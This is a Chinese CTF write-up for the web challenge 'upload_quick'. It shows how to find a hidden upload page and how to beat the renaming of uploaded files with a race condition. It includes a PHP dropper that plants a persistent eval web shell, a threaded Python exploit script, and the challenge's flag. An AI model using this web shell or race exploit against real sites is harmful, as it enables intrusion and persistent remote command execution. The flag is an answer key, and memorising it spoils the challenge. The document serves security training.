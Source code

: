 - **题目名称：** upload_quick
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** fru1ts
- **考点：** 

1. 文件上传
2. 条件竞争

- **描述：** newnew的逻辑总是颠三倒四，令人困惑。milktea经常以飞快的速度在不经意间看到newnew的秘密
- **flag：** `XSCTF{fi1e_uplooooooooad_intetesting_491346}`
- **Writeup：** 

1.获取页面源码（3种方法）：

- `view-source:url` / Ctrl + U
- 打开开发者工具（不要用快捷键，已经锁死）
- burpsuit

在`EasePack.min.js`找到提示：`you find me, good luck for you! Now go to Upl00000000ad.php`

2.访问`/Upl00000000ad.php`进行文件上传。通过尝试发现文件成功传上去，然后非图片的后缀再被改成`.jpg`，所以可以通过条件竞争在被修改后缀前上传`websehll`。

思路：使用两个线程，一个线程上传php文件，另一个线程访问传上去的php使之执行。

为了留下稳定的后门，在上传的php里面写一个创建后门文件

```php
#a.php
<?php
fputs(fopen("shell.php","w"),'<?php @eval($_POST["cmd"]);?>');
?>
```

exp

```python
import requests
import threading

url = ''


def POST1():
    for i in range(50):
        filename = 'a.php'
        file = {"upload_file": open(filename, "rb")}
        r = requests.post(url=url + 'Upl00000000ad.php', data={'submit': 'True'}, files=file)

        # print(r.text)


def POST2():
    for i in range(50):
        r = requests.get(url=url + 'uploads/a.php')
        if r.status_code == 200:
            r=requests.get(url=url+'uploads/shell.php')
            if r.status_code==200:
                print('ok')
                break
        # print(r.text)



threading.Thread(target=POST1).start()
threading.Thread(target=POST2).start()


```

蚁剑连接`url/uploads/shell.php`


